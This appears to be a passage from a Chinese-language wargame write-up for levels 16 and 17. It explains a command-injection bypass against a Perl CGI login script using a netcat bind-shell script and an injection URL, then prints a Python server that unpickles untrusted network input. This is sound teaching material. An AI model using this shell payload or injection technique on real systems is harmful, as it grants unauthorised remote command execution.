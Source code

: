 ``` perl
  if($_[0] == 1) {
      print("Your login was accepted<br/>");
  } else {
      print("Your login failed<br/>");
  }    
  print("Would you like a cookie?<br/><br/></body></html>\n");
}

htmlz(login(param("username"), param("password")));
```

由源码可以看出，此题应该是**命令注入**，但对输入的变量做了限制：

- 将所有的小写字母转化为大写字母
- 将空白字符及其后面的字符全部删掉

一般的命令都要求输入参数，这就要用空格隔开，因此不能直接注入命令，考虑将命令写入脚本，然后执行；但是并没有对根目录的写入权限，而根目录下的所有文件夹都是小写，所以就需要考虑一种绕过方法。

将如下脚本写入`/tmp/SHELL`：

``` shell
#!/bin/bash
nc.traditional -nlp 9999 -e /bin/bash
```

然后可以用`/*/SHELL`来访问到它，这就绕过了大写转换。给此脚本增加执行权限，然后访问：

	http://your-ip:1616/index.cgi?username=$(/*/SHELL)

然后直接连接nc所监听端口，获取shell。

ps. 另一种绕过方法是利用shell自身的[case modification](http://wiki.bash-hackers.org/syntax/pe#case_modification)，先定义一变量，然后在引用该变量的时候利用`${var,,}`来将大写字母转化为小写。



## Level17

题目源码：

``` python
#!/usr/bin/python

import os
import pickle
import time
import socket
import signal

signal.signal(signal.SIGCHLD, signal.SIG_IGN)

def server(skt):
  line = skt.recv(1024)

  obj = pickle.loads(line)

  for i in obj:
      clnt.send("why did you send me " + i + "?\n")

skt = socket.socket(socket.AF_INET, socket.SOCK_STREAM, 0)
skt.bind(('0.0.0.0', 10007))
skt.listen(10)

while True:
  clnt, addr = skt.accept()

  if(os.fork() == 0):
      clnt.send("Accepted connection from %s:%d" % (addr[0], addr[1]))
      server(clnt)
```